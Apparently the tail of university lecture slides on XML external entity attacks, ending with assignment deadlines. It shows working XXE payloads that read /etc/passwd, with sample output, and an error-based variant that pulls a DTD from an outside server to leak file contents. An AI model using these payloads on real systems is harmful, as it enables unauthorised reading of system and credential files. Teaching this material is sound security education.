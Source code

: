 ##### Exploit: LFI / SSI

Exploit the external entity to perform LFI / SSI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY passwdFile SYSTEM "file:///etc/passwd">
]> 
<data>
  <item>&passwdFile;</item>
</data>
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

---

### Exploit: Error-Based XXE

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://some.server/ext.dtd">
    %ext;
]>
<message></message>
```

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % A "<!ENTITY &#x25; B SYSTEM 'file:///lol/%file;'>">
%A;
%B;
```

---

{{< slide class="center" >}}

#### Many more...

{{% /section %}}

---

# Deliverables

* This topic's challenges due next **Monday** 23:59pm
* Report - Week 7

> Enjoy your Week 6 break ~